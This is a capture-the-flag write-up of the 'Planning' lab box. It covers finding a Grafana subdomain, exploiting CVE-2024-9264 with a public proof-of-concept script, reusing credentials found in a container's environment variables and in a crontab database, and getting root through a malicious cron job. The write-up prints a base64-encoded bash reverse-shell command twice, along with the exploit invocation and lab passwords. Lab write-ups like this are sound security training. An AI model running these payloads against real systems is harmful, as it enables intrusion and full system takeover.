



Planning
Planning was an easy-difficulty Linux box that began with subdomain enumeration to discover a Grafana instance running version 11.0.0. Using provided admin credentials, I successfully authenticated to the Grafana interface and exploited CVE-2024-9264, an authenticated remote code execution vulnerability in the experimental SQL Expressions feature. This vulnerability allowed me to execute arbitrary commands through insufficiently sanitized DuckDB queries, resulting in a root shell within the Grafana container.
Post-exploitation enumeration of the container's environment variables revealed hardcoded credentials for a user named Enzo. These credentials provided SSH access to the underlying host system, establishing a foothold outside the containerized environment. With limited privileges as Enzo, I conducted port enumeration and discovered an internal web service listening on port 8000.
Further system enumeration using LinPEAS revealed a critical file at /opt/crontabs/crontab.db containing JSON data with embedded credentials. These credentials (root:P4ssw0rdS0pRi0T3c) granted access to the internal crontab management interface on port 8000. By leveraging this web-based cron management system, I created a malicious scheduled task containing a Base64-encoded reverse shell payload. Executing the crafted cronjob provided an immediate root shell on the host system, achieving complete system compromise through a combination of container escape techniques and privilege escalation via insecure cron management.
User flag
Initial nmap scan reveals 2 ports. SSH on 22 and HTTP on 80. I'll begin by taking a look at the website.
This looks like an online education website. While I was given credentials for the user admin, it seems like this website does not have a login feature.
Discovering the Grafana subdomain
I fuzzed the website for directories and subdomains using dirsearch and ffuf.
There were two interesting endpoints I could reach, and there was a single subdomain found. I had to use a few different wordlists to find this subdomain.
ffuf -u http://planning.htb -H 'Host: FUZZ.planning.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-spanish.txt -fs 178
Grafana is an open-source analytics and visualization platform used to monitor, analyze, and visualize data from various sources. I will visit the subdomain now, keeping in mind that I have valid credentials for the user admin.
The login page reveals the version of this Grafana instance, which is 11.0.0. I will log in to Grafana with the provided credentials.

I have successfully logged in to Grafana as the administrator.
Abusing CVE-2024-9264 in Grafana
Since I have the Grafana version, I will search for vulnerabilities.
I found CVE-2024-9264, which is an authenticated RCE via the experimental SQL Expressions feature. Due to insufficient sanitization of queries containing user input, it is possible to achieve RCE using any account with at least the VIEWER permission. Since I'm an admin here, this will not be an issue.
https://grafana.com/security/security-advisories/cve-2024-9264/
https://github.com/nollium/CVE-2024-9264
I'll clone this PoC script onto my machine. The only requirement, aside from a valid user, is that the DuckDB binary must be installed and present in Grafana's PATH.
I couldn't find a way to confirm the presence of DuckDB, so I'll quickly check whether this Grafana instance is vulnerable.
This confirms the vulnerability. I can read files on the box, but I would prefer to get an actual shell. Since this worked, there is a high chance that RCE will be possible too.
python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNjQvOTAwMSAgMD4mMQo= | base64 -d | bash" http://grafana.planning.htb
I base64-encoded a bash reverse shell, then piped the decoded command directly to bash. This can be done with curl and a python server, too.
The exploit hangs while running the DuckDB query as my listener captures the shell.
Reading the environmental variables of the container
The fact that I got root directly from RCE, coupled with the hostname consisting of random letters and numbers, makes me think that I've landed in a container.
I'll take a look at a few things by hand. If nothing comes up, I will use LinPEAS to gather more information.
Environmental variables often contain sensitive data. I can get a list of all assigned variables by using the env command.
There are credentials for the user Enzo set in the environmental variables. This user doesn't exist in the container, so I'll try to SSH into the main machine as them.

Root flag
Enzo cannot run sudo on the box. I looked at active ports and found something interesting.
Port 8000 is listed as active, so I'll forward it to my box using SSH.
It required credentials, but none of the ones I've gathered so far were accepted.
Discovering a new set of credentials
I ran LinPEAS on the box, and it discovered an unusual file.
/opt/crontabs/crontab.db is a file that contains raw JSON data, which means that I should be able to read it.
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
There is a password in this DB file. Aside from that, there is a command that creates a backup of the Grafana container daily.
While I don’t have a valid username for the login prompt, root is a common one for internal services, so I’ll test it first.
root | P4ssw0rdS0pRi0T3c
These credentials were accepted on the local website.
Creating a malicious cronjob via the Crontab UI
I can create cronjobs that will be run on the system as root. I'll copy the command used in the first step.
echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNjQvOTAwMSAgMD4mMQo= | base64 -d | bash
And I'll use it to create a new root reverse shell cronjob.

I set the schedule to yearly, so that it won't execute on its own. I can run it on demand by clicking the run now button.
Rooted!